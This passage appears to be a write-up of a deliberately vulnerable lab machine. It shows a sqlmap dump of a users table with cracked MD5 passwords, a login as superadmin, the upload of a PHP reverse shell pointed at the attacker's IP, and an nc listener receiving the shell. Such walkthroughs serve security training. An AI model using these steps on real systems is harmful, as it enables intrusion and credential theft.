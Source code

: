 ```shell
| id | name         | user       | address        | pasword                                     |
+----+--------------+------------+----------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983            |
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | <blank>      | 123456     | <blank>        | e10adc3949ba59abbe56e057f20f883e (123456)   |
+----+--------------+------------+----------------+---------------------------------------------+

[07:13:12] [INFO] table 'webapphacking.users' dumped to CSV file '/home/v4ler1an/.local/share/sqlmap/output/172.16.86.146/dump/webapphacking/users.csv'
[07:13:12] [INFO] fetched data logged to text files under '/home/v4ler1an/.local/share/sqlmap/output/172.16.86.146'

[*] ending @ 07:13:12 /2023-11-09/

```

We can find a superadmin user in table users, and decrpyt the md5 password in website:

![image-20231109201440559](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311092014777.png)

Now, we have the user named `superadmin` and password is `Uncrackable`.

We use the user to login webpage:

![image-20231109201820915](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311092018136.png)

### 2. File Upload Vulnerability

We can find a file upload method in the superamin's page. We know that the website can execute php file, so we can upload a php webshell.

Now, we user `/usr/share/webshells/php/php-reverse-shell.php`, modify the `$ip` 's value with kali ip, and upload it to target;

![image-20231109203035152](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311092030397.png)

The shell.php 's web path should be http://172.16.86.146/upload/shell.php, so we can access the shell.php with it. 

First, listen on kali with nc, and access the shell.php:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ nc -lvp 12345
listening on [any] 12345 ...
id
172.16.86.146: inverse host lookup failed: Unknown host
connect to [172.16.86.138] from (UNKNOWN) [172.16.86.146] 45440
Linux hackme 4.18.0-16-generic #17-Ubuntu SMP Fri Feb 8 00:06:57 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:30:46 up  1:50,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ uname -a
Linux hackme 4.18.0-16-generic #17-Ubuntu SMP Fri Feb 8 00:06:57 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
$ cat /proc/version
```